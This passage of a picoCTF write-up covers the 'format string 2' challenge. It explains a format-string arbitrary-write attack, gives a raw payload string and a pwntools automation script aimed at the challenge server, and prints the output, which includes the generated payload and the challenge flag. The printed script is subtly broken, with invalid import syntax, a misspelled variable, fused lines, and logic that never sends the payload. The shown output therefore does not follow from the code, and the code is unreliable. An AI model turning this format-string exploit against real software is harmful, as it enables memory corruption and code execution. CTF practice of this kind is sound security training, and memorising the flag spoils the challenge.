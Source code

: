 ```c
  
  return 0;
}
```

Surprisingly enough, if you have control over the format string, you have arbitrary write access to the entire stack, effectively allowing for remote code execution. I spent a good while trying to use the input string `\x60\x40\x40\x00\x00\x00\x00\x00%14$n` to set the value of `sus` to 4 to progress the development of the exploit. Doing some more digging, however, `pwntools` is actually smart enough to do automatic exploitation! Using the sample code from the official documentation from the `pwntools` `fmtstr` [library](https://docs.pwntools.com/en/stable/fmtstr.html), I can create a simple python script that automates the exploitation development process:
```python
from pwn import **

context.binary = ELF('./vuln')

p = remote('rhea.picoctf.net', 53865)

# Function to send payload to target
def exec_fmt(payload): 
	p = remote('rhea.picoctf.net', 53865)
	p.sendline(payoad)
	return p.recvall()

autofmt = FmtStr(exec_fmt) # Create exploit automater
offset = autofmt.offset

# Key-value pairs for addresses and their final value after exploit
writes = {
	0x404060: 0x67616c66
}payload = fmtstr_payload(offset, writes)

flag = p.recvall()

print(flag)
print(payload)
```
With the output being:
```bash
┌──(jakemull㉿leman-russ)-[~/ctf/pico/format-string-2]
└─$ python3 pwn.py
b"You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\nHere's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@\nI have NO clue how you did that, you must be a wizard. Here you go...\npicoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}"
b'%102c%20$llnc%21$hhn%5c%22$hhn%245c%23$hhnaaaaba`@@\x00\x00\x00\x00\x00c@@\x00\x00\x00\x00\x00a@@\x00\x00\x00\x00\x00b@@\x00\x00\x00\x00\x00'
```
